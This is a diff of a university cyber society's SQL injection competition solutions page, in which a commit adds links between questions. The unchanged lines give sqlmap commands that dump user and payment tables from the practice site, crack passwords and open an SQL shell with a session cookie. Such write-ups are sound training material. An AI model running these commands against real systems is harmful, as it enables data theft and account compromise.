

Before and after one commit to CyberSoc-Newcastle/sql-injection-competition, a Markdown page: competition/solutions.md, 2 parts joined by grey strips. Rendered like a GitHub page.

````diff
--- a/competition/solutions.md
+++ b/competition/solutions.md
@@ -97,7 +97,7 @@ If you look at the output from the dump command, you could see that there were _
 ## Question 3
 __Question:__ What is Alex's password?
 
-If you ran the command `https://sql.cybersoc.org.uk/events?query=t" -D boat_club -T users --dump` from question 2, and used SQLMap to perform a dictionary based attack, you could see the raw passwords. This command produced the output:
+If you ran the command `https://sql.cybersoc.org.uk/events?query=t" -D boat_club -T users --dump` from [question 2](#question-2), and used SQLMap to perform a dictionary based attack, you could see the raw passwords. This command produced the output:
 ```
 Database: boat_club
 Table: users
@@ -171,7 +171,7 @@ __Answer:__ 569221
 
 __Solution:__
 
-Using the 'Rent a Boat' page from question 5, you could use the command `sqlmap.py -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" -D geordie_boat_rentals_ltd -T payments --dump` to see what the table contained.
+Using the 'Rent a Boat' page from [question 5](#question-5), you could use the command `sqlmap.py -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" -D geordie_boat_rentals_ltd -T payments --dump` to see what the table contained.
 
 This would have returned 126 rows from the table. Just using the dump command is not enough to find the sum of all the money in the `payments` table. To easily calculate the sum, you could run the command `sqlmap.py -u "https://sql.cybersoc.org.uk/members/rent?category=Jet+Ski" --cookie "<COOKIE_VALUE>" --sql-shell`. This would open a SQL shell, which you could run SQL commands.
 
````
Also changed, not shown: other parts of competition/solutions.md (+11 -11 lines).
